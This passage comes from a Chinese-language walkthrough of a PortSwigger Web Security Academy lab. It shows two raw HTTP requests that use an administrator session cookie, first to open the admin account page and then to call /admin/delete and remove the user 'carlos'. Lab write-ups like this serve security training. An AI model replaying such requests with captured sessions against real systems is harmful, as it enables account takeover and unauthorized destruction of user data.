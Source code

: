 Step 5：随后发生请求查看可用的接口

```c
GET /my-account?id=administrator HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```

![img](assets/1706773318-b225b3018a78b07f279a8e132bb5a3ba.png)

访问/admin 路径获取到删除用户的接口信息

![img](assets/1706773318-857068c585ed796675286072792d22eb.png)

Step 6：直接调用接口删除用户

```c
GET /admin/delete?username=carlos HTTP/2
Host: 0a590059045ceec6801b80f6009c0010.web-security-academy.net
Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep
```

